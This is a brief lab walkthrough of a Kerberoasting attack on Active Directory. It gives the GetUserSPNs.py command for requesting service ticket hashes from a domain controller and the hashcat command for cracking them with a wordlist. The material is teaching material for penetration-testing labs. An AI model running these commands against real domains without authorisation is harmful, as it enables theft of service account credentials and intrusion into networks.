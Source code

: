 # V. Kerberoasting Walkthrough

All we need for this attack is our Kali machine and DC machine as it is our KDC (Key Distribution Centre).

Open the terminal and use the following command to grab the hash `python GetUserSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request` :

![Kerberoasting 1.png](V%20Kerberoasting%20Walkthrough%203672962b2cda4bc3a5e1c4e8100f75bf/Kerberoasting_1.png)

Next save the hash into a text file (i.e krb.txt)

Finally crack the hash using hashcat.

`hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt`